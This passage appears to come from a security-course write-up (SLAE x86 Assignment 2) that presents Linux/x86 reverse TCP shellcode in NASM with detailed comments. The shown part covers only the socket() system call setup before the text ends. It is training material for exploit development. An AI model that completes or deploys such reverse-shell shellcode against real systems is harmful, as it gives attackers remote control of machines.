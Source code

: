 ```nasm
		xor edx, edx

		int 0x80

```
### Complete Shellcode
```nasm
;
; Author 	: Rizal Muhammed (UB3RSiCK)
; Description	: SLAE x86 Assignment 2 - Shell Reverse TCP Shellcode (Linux/x86)
; File 		: shell-rev-tcp.nasm
; Website	: https://ub3rsick.github.io/

global _start

section .text

	_start:
		; int socketcall(int call, unsigned long *args)
						; socketcall - socket system calls
						; call determines which socket function to invoke
						; args points to a block containing the actual arguments, which are passed through to the appropriate call.
						
		; int socket(int domain, int type, int protocol); 
						; [/usr/include/linux/net.h] 
						; [#define SYS_SOCKET 1] [sys_socket(2)]

		; domain 	= AF_INET	; [/usr/include/i386-linux-gnu/bits/socket.h] 
						; [#define AF_INET PF_INET]
						; [#define PF_INET 2]
						; [IP protocol family]	 

		; type 		= SOCK_STREAM	; [/usr/include/i386-linux-gnu/bits/socket.h]
						; [SOCK_STREAM = 1]
						; [Sequenced, reliable, connection-based byte streams]

		; protocol 	= IP_PROTO	; [/usr/include/linux/in.h] 
						; [IPPROTO_IP = 0]
						; [Dummy protocol for TCP]
		; sockfd = socket(2, 1, 0)

		; EAX = 0x66 			; sys_socketcall()
		; EBX = 0x1			  ; sys_socket()
		; ECX = Pointer to sys_socket arguments

		xor eax, eax
		push eax			    ; Argument 3 for socket() =>  	IPPROTO_IP = 0
		mov al, 0x66
		
		push byte 0x1
		pop ebx
		
		push byte 0x1			; Argument 2 for socket() => 	SOCK_STREAM = 1
		push byte 0x2			; Argument 1 for socket() => 	AF_INET	= 2	
		
		; Now we have arguments for socket() in the stack. ESP points to them.
		
		mov ecx, esp
		int 0x80			    ; returns socket file descriptor to EAX

		push eax						
```